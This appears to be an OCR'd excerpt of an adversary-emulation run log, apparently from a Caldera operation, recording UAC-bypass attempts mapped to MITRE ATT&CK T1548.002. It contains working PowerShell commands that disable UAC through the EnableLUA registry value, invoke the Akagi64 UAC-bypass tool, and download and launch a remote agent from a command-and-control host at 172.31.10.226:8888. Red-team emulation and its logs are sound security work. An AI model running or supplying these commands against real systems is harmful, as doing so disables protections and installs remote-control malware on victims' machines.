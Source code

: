   Start: 2024-09-13T17:40:18Z

  Command: 
```powershell
New-ItemProperty -Path HKLM:Software\Microsoft\Windows\CurrentVersion\policies\system -Name EnableLUA -PropertyType DWord -Value 0 -Force
```


###   Description: Dll Hijack of WOW64 logger wow64log.dll using Akagi.exe


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 9068

  Start: 2024-09-13T17:42:19Z

  Command: 
```powershell
.\Akagi64.exe 30 C:\Windows\System32\cmd.exe
```


###   Description: UIPI bypass with uiAccess application


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Success

  PID: 8324

  Start: 2024-09-13T17:42:55Z

  Command: 
```powershell
$url="http://172.31.10.226:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$wc.Headers.add("server","http://172.31.10.226:8888");$wc.Headers.add("defaultSleep","60");$wc.Headers.add("defaultGroup","bypassed_u_bro");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data);.\Akagi64.exe 32 "C:\Users\Public\$name.exe -server http://172.31.10.226:8888"
```


###   Description: Bypass user account controls - medium


  Attack: {'tactic': 'privilege-escalation', 'technique_name': 'Abuse Elevation Control Mechanism: Bypass User Access Control', 'technique_id': 'T1548.002'}

  Status: Failed

  PID: 3188
